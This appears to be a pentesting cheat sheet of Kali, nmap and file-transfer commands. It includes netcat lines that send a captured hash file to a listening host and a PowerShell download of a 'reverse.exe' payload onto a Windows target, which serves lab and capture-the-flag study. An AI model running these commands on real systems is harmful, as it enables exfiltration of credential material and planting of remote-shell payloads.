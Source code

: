 # General Tips:

- Kali addons are in /usr/share/*
- Access network -> Zeile: smb://XX.XX.XX.XX
- Netcat Listen:   
    -     nc -lvp 9999 > hash.txt
- Netcat Write: 
    -     ncat.exe -w 3 10.10.1.13 9999 < hash.txt
- Convert text to UTF8 (make rockyou usable): 
    -     iconv -f ISO-8859-1 -t UTF-8 /usr/share/wordlists/rockyou.txt > rockyou_utf8.txt

---
### Windows Terminal:
- Cat -> type
- Ls -> dir

---
### Nmap Flags:
- -O -> Osdetection
- -A -> Aggressive (script, os, version)
- -sV -> Version
- -sN -> Pingscan


---
### FileTransfers: UP->Down
Python Server

-     python3 -m http.server
-     wget http://192.168.1.35/FiletoTransfer
    - Windows:
    -     powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://172.25.0.10/reverse.exe','C:\reverse.exe')"
	-     wget http://172.25.0.10/reverse.exe -UseBasicParsing -OutFile reverse.exe 

Pure Netcat

-     nc 192.168.1.39 4444 -w 3 < FiletoTransfer
-     nc -lvp 4444 > FiletoTransfer

Impacket SMB Server

-     impacket-smbserver -smb2support test .
-     copy \\10.10.10.1:8080\FiletoTransfer FiletoTransfer



# Tools:

Recon: 
- Sitereport.netcraft.com -> subdomain finder
